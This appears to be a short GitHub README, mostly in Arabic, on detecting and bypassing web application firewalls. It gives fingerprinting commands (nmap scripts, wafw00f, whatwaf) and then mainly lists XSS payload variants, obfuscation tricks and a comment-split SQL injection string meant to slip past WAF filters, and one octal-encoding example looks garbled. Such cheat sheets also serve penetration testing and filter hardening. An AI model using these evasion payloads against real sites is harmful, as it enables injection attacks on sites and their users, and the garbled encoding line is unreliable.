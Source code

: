 # Bypass-web
Overtaking, recognition

# تجاوز جدران حماية تطبيقات الويب (WAFs)

## يدوياً
لتشغيل جدار الحماية والتحقق من وجوده يدويًا، يمكن إجراء طلب HTTP باستخدام استعلام ضار في عنوان URL، مثل


`example.com/?test=<script>alert(1)</script>`                                                                                                                                                                                                                                                                                                                          

 في هذه الحالة، قد ترجع WAFs رمز خطأ HTTP 400s.

## التشغيل الآلي
يمكن استخدام أدوات مختلفة لاكتشاف WAFs تلقائيًا:
1. **NMAP**:
   ```bash
   nmap --script=http-waf-fingerprint,http-waf-detect -p443 example.com
   
2. WafW00f:
   bash
   wafw00f [example.com](https://example.com)
   
3. WhatWaf:
   bash
   whatwaf -u [example.com](https://example.com)
   


## تجاوز WAFs
### تجاوز Regex
بدلاً من استخدام الحمولات التقليدية مثل <script>alert(XSS)</script>، فكر في استخدام البدائل التالية:
- <sCrIpT>alert(XSS)</sCriPt>
- <<script>alert(XSS)</script>
- <script>alert(XSS) //
- <script>alert\`XSS\`</script>
- java%0ascript:alert(1)
- <iframe src=malicous.com <
- <STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYL E>
- <img/src=1/onerror=alert(0)>
- <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a>

### التشويش
يمكن أيضًا استخدام تقنيات التشويش لتجاوز WAFs:
- Function("ale"+"rt(1)")();
- javascript:74163166147401571561541571411447514115414516216450615176 (octal encoding)
- <iframe src="javascript:alert(\`xss\`)"> (unicode encoding)
- /?id=1+un/**/ion+sel/**/ect+1,2,3 (using comments in SQL query)
- %26%2397;lert(1) (HTML encoding)
- data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ (base64 encoding)

لمزيد من التقنيات والمعلومات، راجع [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).

شكرا على القراءة! ᓚᘏᗢ
